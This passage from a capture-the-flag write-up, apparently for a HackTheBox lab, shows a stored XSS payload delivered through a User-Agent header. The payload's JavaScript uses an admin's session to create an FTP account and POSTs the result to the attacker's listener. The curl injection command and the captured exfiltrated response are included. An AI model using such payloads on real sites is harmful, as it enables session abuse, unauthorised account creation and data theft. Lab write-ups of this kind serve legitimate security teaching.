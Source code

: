 ```
            if (reg_req.readyState == XMLHttpRequest.DONE) {
                var exfil_req = new XMLHttpRequest();
                exfil_req.open("POST", "http://10.10.14.11:3000/", false);
                exfil_req.send(reg_req.response);
            }
        };
        reg_req.open("POST", "http://ftp.crossfit.htb/accounts", false);
        reg_req.withCredentials = true;
        reg_req.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
        reg_req.send("_token=" + token + "&username=0xdf&pass=0xdf0xdf");
    }
};

fetch_req.open("GET", "http://ftp.crossfit.htb/accounts/create", false);
fetch_req.withCredentials = true;
fetch_req.send();

```

Run it with `curl` (at this point I’ve added a `grep` on the results for the XSS message to stop printing a full page each time, but still make sure the request didn’t break):

```

root@kali# curl -s http://gym-club.crossfit.htb/blog-single.php --data 'name=0xdf&email=0xdf@crossfit.htb&phone=9999999999&message=%3Cscript+src%3D%22http%3A%2F%2F10.10.14.11%22%3E%3C%2Fscript%3E&submit=submit' -H 'User-Agent: <script src="http://10.10.14.11/ftp-create-account.js"></script>' | grep -i xss
                    <div class='alert alert-danger' role='alert'><h4>XSS attempt detected</h4><hr>A security report containing your IP address and browser information will be generated and our admin team will be immediately notified.</div><br>                    <div class="leave-comment-form">

```

After a GET at my Python webserver on 80 for `ftp-create-account.js`, I see the POST come back at `nc`:

```

POST / HTTP/1.1
Host: 10.10.14.11:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://gym-club.crossfit.htb/security_threat/report.php
Content-Type: text/plain;charset=UTF-8
Content-Length: 1722
Origin: http://gym-club.crossfit.htb
Connection: keep-alive

<!DOCTYPE html>
<html>
<head>
    <title>FTP Hosting - Account Management</title>
    <link href="https://cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/4.0.0-alpha/css/bootstrap.css" rel="stylesheet">
</head>
<body>
<br>
<div class="container">
        <div class="row">
        <div class="col-lg-12 margin-tb">
            <div class="pull-left">
                <h2>FTP Hosting - Account Management</h2>
```